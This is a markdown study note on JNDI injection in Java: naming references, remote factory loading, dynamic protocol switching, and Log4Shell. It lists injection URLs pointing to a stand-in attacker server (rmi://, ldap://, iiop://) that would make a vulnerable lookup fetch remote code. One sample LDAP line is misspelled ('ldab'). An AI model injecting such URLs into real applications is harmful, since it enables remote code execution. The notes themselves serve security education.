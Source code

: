 ```yaml
---
sort: 1
---
```


# JNDI injection & LDAP Entry Poisoning 

## Introduction
> JNDI is a NutShell

`Java Naming and Directory Interface`, is a common interface to interact with Naming and Directory Services/Providers.


### # What is Naming Service/Provider 
is a system that `Binds` a name to a given value/object.

It provides a facility to find an object based on a name that is known as `Lookup` or `Search` operation.

```note
EX : DNS Naming Service, that Binds the IP adddress to the host name 

EX : File System Naming Service, that binds the file name to the file itself   
```

### # What is Directory Service/Provider
is a service that allows `Storing` and `finding` special type of objects that is known as Directory Object -- A collection of attributes --

thereore it offers extended functionality to operate on the object attributes. 

```note
EX : LDAP Directory Service, that stores things like employee records with all the collection of attributes (name, email, location, ...)  
```

---------------------------------------------------
## JNDI Architecture    
JNDI offers a common interface to interact with different types of Services/Protocols .

<br>
<p align="center"> 
  <img src='./../assets/images/5.jpg'> 
</p>
<br>


As we see the API exposes the methods to Bind, to Lookup or search for names, to rename a binding or delete a binding and so on. 

And the Server Provider Interface (SPI) allows different services to be managed by JNDI. 

---------------------------------------------------
## JNDI In Action 

```note
RMI Registry is a Naming Service, that binds a name to a given java object 
```

```java 
// The initial context configured to work with RMI Regestry (Choosen Provider Here)
Hashtable env = new Hashtable();
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(PROVIDER_URL, "rmi://localhost:1099");  // the Registry Running on localhost

// Initialize the context
Context ctx = new InitialContext(env);

// Bind string to name foo in the RMI Registry 
ctx.bind("foo", "Sample String");

// Look up the object 
Object local_obj = ctx.lookup("foo"); 
// Recover the objects using lookup operation, on the same JVM or diff JVM ???  
```
Other Services can be used by using different `PROVIDER_URL`
```java 
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdabCtxFactory");
env.put(PROVIDER_URL, "ldab://localhost:389");
```


```note
JVM - Java Virtual Machine 
```

<br>
<br>


---------------------------------------------------
## JNDI Naming References

>If we want to bind java object to a Naming/Directory Service We can use the data serialization of the object - binding the binary representation to the given name
<br>
But if the object is too large or not serializable we can use some thing called Naming References 

<b>JNDI Naming References:</b>
* <b>Reference Addresses:</b> 
  <br> addr of the object 
  ```
  EX: rmi//server/refAddr
  ```
  So when we do the lookup operation we will receive the JNDI reference, the naming server will decode this reference and get the address, then we will use the addr to fetch the final object.

* <b>Remote Factory:</b>
  <br> location of a remote factory class to instantiate the object 
  * FactoryClassName 
  * CodeBase : Location of the factory class file
  
  <br>So when we do the lookup operation we will receive the JNDI reference, we track the factory location, fitch that remote class, then we instantiate that factory to generate our object.

<br>
<p align="center">
  <img src='./../assets/images/3.jpg'> 
</p>
<br>


In the SPI layer (Server layer) and for example in the RMI there is a JVM property that needs to be enabled in order to allow the remote class loading, which is by default disabled, and even if you enable this property then the security maneger have to specefy where these classes are loaded from, what kind of these classes can run and so on. 
<br><br>
For LDAP it's similar, but we only have the property without the security maneger enforcement, So once the developers have enabled this property, the code can load remote classes without any security management.
<br><br>
The Most intresting part is in the Naming Maneger Layer (the layer that decodes the JNDI references, the layer that will fetch the remote factory classes) which has no JVM property nor security management.

```note
When we initialize the JNDI context we configure it to work with a given provider type and url 

```

------------------------------------------------
## JNDI Injection 
It's an `Input Validation` vulnerability, where untrusted data added into JNDI lookup method, which could lead to a remote code execution.

### Attack Process 
1. Attacker binds payload in attacker Naming/Directory service.
2. Attacker Inject an absolute URL to a vulnerable JNDI lookup method.
   <br> ** The URL has a name that when looked up is going to pull the malicious object associated with this name into his own server, and run it. 
3. App performs the lookup.
4. App connects to the attacker controlled N/D service that returns payload.
5. App decodes the response and trigger the payload



```java
// Create Initial Context
Hashtable env = new Hashtable();
env.put(INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(PROVIDER_URL, "rmi://secure-server:1099");  // Secure
Context ctx = new InitialContext(env);

// Look up the object 
Object local_obj = ctx.lookup(<attacker-controlled>); 
```
If we perform a lookup operation, this operation should be resolved relatively to the `INITIAL_CONTEXT_FACTORY` and `PROVIDER_URL`,  However <b><span style="color:#d74338"> this is not ture </span></b>

The reason is that JNDI implements something called `Dynamic Protocol Switching`, So if the attacker is capable of providing an absolute URL, they will be able to overwrite the default `INITIAL_CONTEXT_FACTORY` ==> `Protocol` and `PROVIDER_URL`.
<br>
So the attacker will be able to point the lookup operation to their own server and then return the JNDI reference to trigger the remote code execution payload.
<br><br>
### Attack Vectors
Attacker can provide an absolute URL changing the protocol/provider
```c
rmi://attacker-server/Ref  
ldap://attacker-server/cn=Ref,dc=test,dc=org
iiop://attacker-server/Ref
```
There is three main vectors to gain RCE through JNDI Injection:
* RMI
  * JNDI References 
  * Remote Object [ later ]
* CORBA
  * IOR 
* LDAP 
  * Serialized Object 
  * JNDI References 
  * Remote Location [ later ] 















-------

My notes

-------


```note
LDAP and RMI are servers that receive a name and send back a java object   

https://www.fastly.com/blog/new-data-and-insights-into-log4shell-attacks-cve-2021-44228

```











